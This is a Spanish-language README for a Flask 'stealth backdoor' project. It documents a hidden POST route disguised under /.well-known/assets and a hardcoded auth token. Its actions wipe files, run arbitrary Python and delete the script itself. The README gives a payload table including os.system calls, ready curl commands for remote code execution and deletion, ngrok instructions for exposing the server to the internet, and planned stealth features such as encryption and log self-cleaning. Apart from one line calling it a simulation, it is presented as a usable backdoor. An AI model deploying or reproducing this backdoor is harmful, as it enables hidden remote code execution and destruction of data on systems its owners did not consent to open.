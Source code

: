 # 🕵️ Stealth Flask Backdoor


Este microservidor Flask simula una puerta trasera

## 🚀 Funcionalidades

- ✅ Ruta oculta: `POST /.well-known/assets`
- 🔐 Requiere header de autenticación:  
  `X-Auth-Token: U3VwZXJTZWNyZXQ=`  ← base64("SuperSecret")
- 🎯 Acciones disponibles vía parámetro `act`:
  - `act=borrar` → borra todos los archivos en `./books`
  - `act=ejecutar` → ejecuta código Python arbitrario
  - `act=autodestruir` → borra el script `backdoor.py`
- 📁 Genera un registro oculto en `.syslog` con la IP y actividad

---

## 🧪Payloads útiles (acción: `ejecutar`)

| Payload                                             | Descripción                             |
|-----------------------------------------------------|-----------------------------------------|
| `print("Hola mundo")`                              | Imprime en consola del servidor         |
| `open("flag.txt", "w").write("")`                 | Escribe un archivo de texto             |
| `__import__('os').system('ls')`                     | Ejecuta un comando del sistema          |
| `__import__('socket').gethostbyname(...)`           | Obtener la IP del servidor              |
| `__import__('shutil').copy("f", "dest")`            | Copiar archivos                         |


🕵️ Log de Actividad
Todos los accesos exitosos se registran en el archivo .syslog, incluyendo:

log
Copiar
Editar
Registro: 192.168.0.45
Registro: acción ejecutada


🌐 Exposición remota
¿No estás en red pública? Usa ngrok:
```bash
ngrok http 5000
```   
Y luego accede desde cualquier parte del mundo vía HTTPS.


---
## 📦 Ejecución

📡 Activación remota (desde otra máquina)
Requisitos:
Agregar el header:
X-Auth-Token: U3VwZXJTZWNyZXQ=
🔥 Ejecutar código Python:
```bash
curl -X POST "http://<host>:5000/.well-known/assets?act=ejecutar" \
  -H "X-Auth-Token: U3VwZXJTZWNyZXQ=" \
  --data 'open("flag.txt", "w").write("Pwned!")'
```
🧨 Borrar archivos:
```bash
curl -X POST "http://<host>:5000/.well-known/assets?act=borrar" \
  -H "X-Auth-Token: U3VwZXJTZWNyZXQ="
```
🫥 Autodestrucción:
```bash
curl -X POST "http://<host>:5000/.well-known/assets?act=autodestruir" \
  -H "X-Auth-Token: U3VwZXJTZWNyZXQ="
```
```bash
pip install -r requirements.txt
python backdoor.py
```
Accede desde otro sistema:

```bash
curl -X POST "http://<host>:5000/.well-known/assets?act=script" \
  -H "X-Auth-Token: U3VwZXJTZWNyZXQ=" \
  --data 'print("Backdoor activada")'
```

---

TODO / Mejoras futuras
 Añadir cifrado AES a los scripts

 Backdoor activada por Redis

 Modos silenciosos de respuesta (stealth logs, autolimpieza)
